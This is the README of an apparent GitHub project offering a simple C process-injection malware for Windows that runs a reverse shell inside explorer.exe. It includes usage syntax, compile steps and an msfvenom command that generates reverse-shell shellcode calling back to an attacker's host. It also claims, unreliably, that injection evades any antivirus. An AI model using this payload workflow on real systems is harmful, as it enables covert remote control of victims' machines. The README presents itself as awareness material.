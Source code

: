 
<div>
    <img src="https://img.shields.io/badge/Language%20-C-black.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Tools%20-Windows API-green.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Target OS%20-Windows 7..11-blue.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Project%20-Malware | Process Injection-red.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Hacking tool | Cybersecurity Awareness%20-teste?style=flat-square style="max-width: 100%;">
</div>


# Simple Windows malware | Process injection

Simple payload for hacking Windows and process injection. Using the windows API for the C programming language. 

* **Windows API:** https://learn.microsoft.com/pt-br/windows/win32/apiindex/windows-api-list

### **Process injection**

![ezgif com-video-to-gif](https://github.com/Jsmoreira02/Wind0wsM4lware_/assets/103542430/60f51a38-4e3a-421b-9dcc-2eb4187484cf)


Process injection is an evasive attack method that hackers use to gain access to the system by executing their malicious code in the address space of a legitimate process, hiding the malware and often not generating any suspicion about an attacker on the system, as the malicious code becomes difficult to detect. Process injections also evade detection by any antivirus, application control, or endpoint detection and response systems running on the network because the infected processes are viewed as legitimate. 

Hackers usually use less suspicious or more important system processes such as: svchost.exe, rundll32.exe or even explorer.exe.

* **Explorer_injection.exe:** Performs a shell connection on the reverse target computer at the execution address of the explorer.exe process. 

#

* **How to find the PID of a running windows process:**

![Screenshot_20231107_182320](https://github.com/Jsmoreira02/Wind0wsM4lware_/assets/103542430/2e262abf-32d6-448a-bbfb-c5c9f6922df8)


```bash
  tasklist | findstr <process name>
```
=> CMD syntax: `Process_injection.exe <PID>`

# Compiling

* **Compiling the code (Linux):** 
```bash 
x86_64-w64-mingw32-gcc code.c -o code -static-libgcc
```
* **Compiling the code (Windows):**
```bash
gcc code.c -o code
```

# MinGW-w64 Instalation:

**Debian/Ubuntu OS:** 
```bash 
sudo apt install mingw-w64-x86-64 (64-bits)
or
sudo apt install mingw-w64 (32-bits)
```

**Fedora**:
```bash 
sudo dnf install mingw64-gcc
```

**Arch Linux**:
```bash 
sudo pacman -S mingw-w64-gcc
```

=> More Info: https://www.mingw-w64.org/

=> Shellcode generator: `msfvenom -p <Payload> LHOST=<IP> LPORT=<LOCAL PORT> --platform windows --arch <x64/x86> -f c`

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It primarily serves as a proof of concept, is intended to raise awareness about cybersecurity and can be improved in many ways.
